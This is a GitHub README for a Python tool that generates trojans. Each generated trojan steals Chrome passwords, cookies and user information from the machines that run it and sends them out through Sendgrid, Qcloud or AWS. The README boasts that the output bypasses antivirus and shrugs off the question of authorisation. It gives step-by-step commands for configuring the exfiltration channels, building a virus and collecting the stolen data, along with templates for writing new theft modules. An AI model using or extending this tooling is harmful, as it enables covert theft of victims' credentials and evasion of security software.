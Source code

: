 # Knicky
 ![](https://travis-ci.org/shouc/knicky.svg?branch=master)
 ![](https://camo.githubusercontent.com/4a42460f88f172b10e916fec11857648a8a2f2c8/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f706c6174666f726d2d6f73782532466c696e757825324677696e646f77732d677265656e2e737667)
 ![](https://camo.githubusercontent.com/352488c0cbba0e8f6da11ae0761444dd0c93489c/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f707974686f6e2d322e372d626c75652e737667)

Yet another module-based static virus generator 


## Little FAQ
**WTF is static virus?**  
Static virus is the virus/trojan that has already had all its functions been defined and would not be controlled by server side. Instead, it would only send critical information (Chrome password, etc.) slowly and predictedly to server side using legitimate third-party services (Sendgrid, AWS, Qcloud, etc.).  
 ![How it works](pics/howitworks.png)

**Why use it?**  
Because the virus generated could always bypass the anti-virus softwares. If not, then make some modification on the modules you are using. And you can also use it in DMZ!  

**Am I authorized to hack others' computer?**  
No, but why not.


## Definition
You should know these conventions to understand following content
* Module - components that are used to return critical information
* Messenger - components that are used to communicate with you and the hacked machine
* Project - each specific virus created

## Installation
Please use Python 2.7ish!
```bash
$ git clone https://github.com/shouc/knicky.git && cd knicky
$ python -m pip install -r requirements/main.txt --user
```
## Small Examples

#### 1. Initialize the Module

##### Using Sendgrid
Note: *See the help information about such module*
```bash
$ python cli.py sgUpdate --help
```
Note: *Replace the information in <> in accordance to your personal information*
```
$ python -m pip install -r requirements/sendgrid.txt --user
$ python cli.py sgUpdate\
    --user <receiving email address>\
    --password <receiving email password>\
    --server <receiving email pop3 server>\
    --apiKey <sendgrid api key>\
    -b True
```

##### Using Qcloud COS (腾讯云储存)
Note: *See the help information about such module*
```bash
$ python cli.py qcloudUpdate --help
```
Note: *Replace the information in <> in accordance to your personal information after creating a COS bucket in the panel*
```
$ python -m pip install -r requirements/qcloud.txt --user
$ python cli.py qcloudUpdate\
    --secretID <SecretID>\
    --secretKey <SecretKey>\
    --region <BucketRegion>\
    --bucket <BucketName>\
    -b True
```

#### 2. Have an Overview on Components
See all information about Messenger (components that are used to communicate with you and the hacked machine)
```
$  python cli.py getSendInfo
```
See all information about Module (components that are used to return critical information)
```
$  python cli.py getModuleInfo
```
#### 3. Create a Virus
Note: *By doing so, you created a virus that could send the information of user (userInfo) and Chrome password (chromePassword) of the machine that executed the generated code to you by Qcloud(qcloud)*
```
$ python cli.py createProj userInfo+chromePassword qcloud
```
#### 4. Receive Information
Note: *The information sent to you is encrypted by base64 and you could use following command to decrypt*
```
$ python cli.py listProj
$ python cli.py receiveInfo <project name from foregoing command>
```


## Develop Module

Modules are located at `/module` folder and ends with `.py`.

A module's code should include two functions and several constant:

```python
__sys__ = ["Windows"] # Specify the platform supported
__name__ = "chromeCookies" # Specify the name of messenger
__desc__ = "Retrieve all Cookies of Google Chrome" # Specify the description of messenger


def send():
    """
    Generate the information that is sent to attacker's computer
    This is executed on client side
    :return: plain content need to send to attacker's computer
    """
    pass

```


## Develop Messenger

Messengers are located at `/messenger` folder and ends with `.uninit`.

A messenger's code should include two functions and several constant:

```python
__sys__ = ["Windows", "Darwin", "Linux"] # Specify the platform supported
__name__ = "AWS" # Specify the name of messenger
__desc__ = "Use AWS" # Specify the description of messenger


def send(_content, _module, _projName):
    """
    How the information is sent to attacker's computer (e.g. sending email)
    This is executed on client side
    _content: the content need to send
    _module: the module that created this content
    _projName: the name of this project
    """
    pass

def receive(_range, _projName):
    """
    How the information is received by attacker's computer (e.g. receiving email)
    This is executed on attacker side
    _range: the amount of record attacker needs
    _projName: the name of this project
    :return: [{'_content': the content received
              '_projName': the name of this project
              '_byModule': the module created this content
              '_from': [Optional] the user identifier of this content (e.g. username of computer)
              '_id': [Optional] the identifier of this content
              '_date': the time},]
    """
    pass
```

As different user has different credential for messenger (e.g. different API key for sendgrid), you can specify a configuration in `/config.py` and use `"!@knicky.xxxx@!"` to replace the original credential so that update function could understand.

For example,

```python
# config.py
class xxxUpdate(updateBase):
    def __init__(self, xxAPIKey="xxx", yyAPIKey="yyy", bypass=False):
        updateBase.__init__(self)
        updateBase.stop(self)
        self.bypass = bypass
        self.fileName = "messenger/xxx.uninit"
        self.updateList = [
            {"xxAPIKey": "secretID", "after": xxAPIKey, "desc": ""},
            {"yyAPIKey": "secretID", "after": yyAPIKey, "desc": ""},
        ]
```

Then, all `"!@knicky.xxAPIKey@!"` and `"!@knicky.yyAPIKey@!"` are replaced to what user specified in CLI.